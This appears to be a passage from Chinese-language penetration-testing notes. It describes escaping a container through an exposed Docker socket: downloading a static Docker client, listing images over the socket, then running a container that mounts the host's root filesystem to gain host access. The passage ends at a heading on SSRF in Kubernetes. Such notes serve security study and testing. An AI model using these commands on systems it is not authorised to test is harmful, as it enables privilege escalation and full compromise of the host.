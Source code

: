 ![image-20230203175429237](../../.gitbook/assets/image-20230203175429237.png)

下载docker二进制版本

```
wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

解压

```
tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

使用docker调用sock

```
/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![image-20230203175847619](../../.gitbook/assets/image-20230203175847619.png)

> docker提权到宿主机
>
> ```
> /tmp/docker/docker -H unix:///custom/docker/docker.sock run -v /:/mnt -it alpine  sh
> ```



## Kubernetes (K8S) 中的 SSRF
